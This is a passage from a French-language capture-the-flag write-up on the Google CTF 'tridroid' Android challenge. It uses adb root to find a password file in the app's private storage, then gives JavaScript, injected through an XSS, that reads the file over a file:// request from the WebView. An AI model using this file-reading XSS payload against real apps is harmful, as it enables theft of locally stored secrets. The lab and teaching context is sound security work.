 ### Récupération du mot de passe

Nous pouvons utiliser une XSS pour divulguer le mot de passe, mais nous devons d'abord savoir où il est stocké sur l'appareil. Pour cela, nous avons utilisé ADB et ouvert un shell sur l'émulateur. 

```
$ adb root
restarting adbd as root
$ adb shell
generic_x86_64_arm64:/ # cd /data/data/com.google.ctf.pwn.tridroid/files
generic_x86_64_arm64:/data/data/com.google.ctf.pwn.tridroid/files # ls
password.txt
generic_x86_64_arm64:/data/data/com.google.ctf.pwn.tridroid/files # cat password.txt
acec55ba-0f8e-4cff-82c9-5aee97c5bf54
```

Maintenant que nous avons le chemin complet du fichier de mot de passe et parce que la vue web a les droits d'accès sur le fichier, nous pouvons ouvrir une URL commençant par `file://` pour lire son contenu :

```javascript
const pwd = "/data/data/com.google.ctf.pwn.tridroid/files/password.txt";
var xmlHttp = new XMLHttpRequest();
xmlHttp.open("GET", "file://"+pwd, false); // false for synchronous request
xmlHttp.send();
password = xmlHttp.responseText;
alert("password : "+password);
```
